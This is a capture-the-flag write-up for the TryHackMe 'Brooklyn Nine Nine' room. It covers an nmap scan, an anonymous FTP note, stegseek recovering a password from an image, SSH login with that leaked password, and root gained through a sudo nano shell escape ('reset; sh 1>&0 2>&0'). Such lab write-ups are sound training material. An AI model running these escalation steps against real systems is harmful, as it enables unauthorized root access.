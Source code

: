 # Brooklyn Nine Nine

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/95b2fab20e29a6d22d6191a789dcbe1f.jpeg)

## Difficulty = Easy

***


Running our nmap scan we have 3 ports opened -:

```bash
# Nmap 7.94 scan initiated Fri Oct 20 10:29:37 2023 as: nmap -p80,21,22 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.143.68
Nmap scan report for 10.10.143.68
Host is up (0.43s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.75.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 10:30:03 2023 -- 1 IP address (1 host up) scanned in 26.09 seconds
```

Checking `FTP` we have a note for us, we can download it with the `mget` command

![](https://i.imgur.com/R9lmhDe.png)


Checking the note, we can see that we have 3 usernames which is **Amy**, **holt** and **Jake** and it looks like Amy tells Jake to change his password because it is too weak 😂 (Great hint)

![](https://i.imgur.com/JDmisMn.png)

Navigating to port `80/HTTP` we have this website

![](https://i.imgur.com/XLZtecj.png)


Viewing **Page-source** we have this commented text

![](https://i.imgur.com/qsJmKaz.png)

Navigating to `/brooklyn99.jpg` we truly have the image, we can download it with `wget` or just right click and **save**

![](https://i.imgur.com/nHk9snS.png)

Running a tool called `stegseek` on this image we found a `note.txt` file saved as `brooklyn99.jpg.out` on our system

```bash
$ sudo apt install stegseek
```


![](https://i.imgur.com/hn0gOGV.png)


Concatenating `brooklyn99.jpg.out` looks like we found a new user called, **Holt's**, with his/her password

![](https://i.imgur.com/aLM5ZhM.png)

Running dir/file bruteforce with `dirsearch` nothing seems convincing (just to be sure we are doing the right thing 🐬)

![](https://i.imgur.com/cjs9a56.png)

we successfully logged in via `SSH` with the credentials we found, `holt:fluffydog12@ninenine`

![](https://i.imgur.com/hR2TUYq.png)

Navigating to `/var/www/html` we have a **photo.jpg** file

![](https://i.imgur.com/7fnluZV.png)


We can download it using `wget` again and run it through `stegseek`


![](https://i.imgur.com/rId9zfS.png)


As we can see we don't have much information than somoene's POC 😂

![](https://i.pinimg.com/originals/e6/29/49/e6294964e26db35f05e41e25e689b19d.gif)


Running `sudo -l` we can see that we can run `/bin/nano` with the **sudo** command

![](https://i.imgur.com/CZZKJQ1.png)

Here is the command to get root with nano

```bash
$ sudo /bin/nano

# Ctrl+R - Ctrl+X - This is a comment
^R^X

$ reset; sh 1>&0 2>&0
```


![](https://i.imgur.com/cAdqJEq.png)


Have fun 😀

![](https://i.pinimg.com/originals/f0/5d/3c/f05d3cb8b8791d735bd6b9b8ae6be817.gif)




<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


